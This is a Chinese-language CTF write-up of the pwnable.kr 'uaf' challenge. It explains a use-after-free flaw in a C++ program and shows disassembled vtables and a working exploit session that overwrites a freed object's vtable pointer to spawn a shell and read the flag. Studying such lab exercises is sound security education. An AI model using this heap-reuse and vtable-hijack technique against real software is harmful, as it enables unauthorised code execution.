```yaml
---
title: pwnable.kr-uaf
date: 2018-01-29 21:02:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
这道题有了pwn的味道了，自己虽然以前学习过二进制漏洞方面的知识但是都是windows方面的（还是新手），对于linux系统下的安全机制和一些关键的技术仍然不熟悉，做这道题参考了[别人的writeup](http://blog.csdn.net/qq_20307987/article/details/51511230)，这篇writeup很详细，对我这样的新手来说很友好。
# 分析
先分析源码`uaf.c`
```c
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}

```
整个逻辑简短分析。这是一个c++程序，定义了一个基类`Human`和继承的两个子类`Woman`,`Man`。其中关键的部分是基类中定义了两个虚函数`get_shell`,`introduce`。`main`函数中先是定义了两个子类的对象，然后循环结构中有3个`case`，第一个分别调用了`introduce`函数，第二个分配一个用户指定大小的的内存并向里面写入用户指定的数据，第三个执行前面两个对象的销毁。
逻辑清楚了，漏洞在哪呢？根据题目提示，这存在一个`uaf`漏洞。
## 知识点
`UAF`是`Use-After-Free`的缩写，也就是释放后重用漏洞。UAF漏洞的成因是一块堆内存被释放了之后又被使用。又被使用指的是：指针存在（“野”指针被引用）。这个引用的结果是不可预测的，因为不知道会发生什么。由于大多数的堆内存其实都是C++对象，所以利用的核心思路就是分配堆去占坑，占的坑中有自己构造的虚表。
uaf漏洞是一种内存破坏漏洞存在于各种操作系统中。对于本题来说，还要了解的技术如下
- linux内存分配和释放策略
- c++对象内存布局

对于这些参考搜索引擎即可，我找时间好好学习并总结一下（可以参考上面推荐的writeup）。
## 利用
了解了关键的技术接下来就是漏洞的利用。分析程序发现，只要先执行第三个`case`使对象释放，然后再重新申请同样大小的内存，那么根据linux内存的分配策略原先释放掉的对象内存就会被重新分配，这时再执行第一个`case`就会使用“野”指针执行虚函数调用。然而“野”指针指向的内存是由我控制的，于是就达到了利用的目的。然而本题由于有两个对象，且对象调用函数的顺序和内存先释放后分配的事实导致利用有些许改变，应该保证第一个对象（`m`）的函数调用不会引起异常，所以向内存中写入的数据以第一个对象为准。
利用流程就是`case3->case2-case2->case1`。利用思路就是改变虚表指针的值，使其指向虚表的前8个字节（因为`get_shell`是虚表中第一个函数，且题目系统是64位），从而使对象在调用`introduce`时调用`get_shell`而获得shell。所以getflag的关键就是找类`Man`的虚表。
```c
.rodata:0000000000401550 off_401550      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401550                                         ; DATA XREF: Woman::Woman(std::string,int)+24o
.rodata:0000000000401550                                         ; Human::give_shell(void)
.rodata:0000000000401558                 dq offset _ZN5Woman9introduceEv ; Woman::introduce(void)
.rodata:0000000000401560                 public _ZTV3Man ; weak
.rodata:0000000000401560 ; `vtable for'Man
.rodata:0000000000401560 _ZTV3Man        db    0
.rodata:0000000000401561                 db    0
.rodata:0000000000401562                 db    0
.rodata:0000000000401563                 db    0
.rodata:0000000000401564                 db    0
.rodata:0000000000401565                 db    0
.rodata:0000000000401566                 db    0
.rodata:0000000000401567                 db    0
.rodata:0000000000401568                 db 0D0h ; 
.rodata:0000000000401569                 db  15h
.rodata:000000000040156A                 db  40h ; @
.rodata:000000000040156B                 db    0
.rodata:000000000040156C                 db    0
.rodata:000000000040156D                 db    0
.rodata:000000000040156E                 db    0
.rodata:000000000040156F                 db    0
.rodata:0000000000401570 off_401570      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401570                                         ; DATA XREF: Man::Man(std::string,int)+24o
.rodata:0000000000401570                                         ; Human::give_shell(void)
.rodata:0000000000401578                 dq offset _ZN3Man9introduceEv ; Man::introduce(void)
.rodata:0000000000401580                 public _ZTV5Human ; weak
.rodata:0000000000401580 ; `vtable for'Human
.rodata:0000000000401580 _ZTV5Human      db    0
```
在ida中可以发现`Man`类的虚表地址是`0x401550`，然后就有了下面的利用过程
```bash
uaf@ubuntu:~$ python -c "print '\x48\x15\x40'+'\x00'*21" >/tmp/poc
uaf@ubuntu:~$ ./uaf 24 /tmp/poc
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
$ 

```
# 总结
感觉做这道题有了pwn的感觉了，学到了很多linux内存管理方面的东西，同时也专门去了解了uaf漏洞的东西，收货很大。